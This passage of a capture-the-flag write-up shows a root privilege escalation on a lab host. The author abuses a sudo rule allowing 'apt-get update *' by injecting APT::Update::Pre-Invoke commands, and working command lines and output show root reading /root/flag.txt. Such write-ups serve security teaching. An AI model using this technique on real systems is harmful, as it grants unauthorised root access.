Matching Defaults entries for tickets on de96a44d6a0c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tickets may run the following commands on de96a44d6a0c:
    (root : root) NOPASSWD: /usr/bin/apt-get update *
```

So I can get package indexes, but not install or upgrade anything, that's interesting. I check the man pages for `apt-get` and find nothing particularly interesting, but I keep looking deeper in the config for `apt.config` and find an interesting sounding option:

```
Pre-Invoke, Post-Invoke
  This is a list of shell commands to run before/after invoking rpm(8). Like Options this must be specified in list notation. The commands are invoked in order using /bin/sh; should any fail APT will abort.
```

Looking at the syntax for this, it should be provided like `APT::Update::Pre-Invoke::=<cmd>` so I decide to give it a go:

`ssh -i id_ed25519 -o StrictHostKeyChecking=no tickets@db sudo apt-get update -o "APT::Update::Pre-Invoke::=id"`

```
uid=0(root) gid=0(root) groups=0(root)
Hit:1 http://security.debian.org/debian-security buster/updates InRelease
Hit:2 http://deb.debian.org/debian buster InRelease
Hit:3 http://deb.debian.org/debian buster-updates InRelease
Hit:4 http://repo.mysql.com/apt/debian buster InRelease
Reading package lists...
```

Perfect, so then using that to read the root flag should be easy:

`ssh -i id_ed25519 -o StrictHostKeyChecking=no tickets@db sudo apt-get update -o "APT::Update::Pre-Invoke::='cat /root/flag.txt'"`

```
SoT2021{829ef6f76e94e99dad40b65308eba86c}Hit:1 http://security.debian.org/debian-security buster/updates InRelease
Hit:2 http://deb.debian.org/debian buster InRelease
Hit:3 http://deb.debian.org/debian buster-updates InRelease
Hit:4 http://repo.mysql.com/apt/debian buster InRelease
Reading package lists...
```

And there's the final flag `SoT2021{829ef6f76e94e99dad40b65308eba86c}`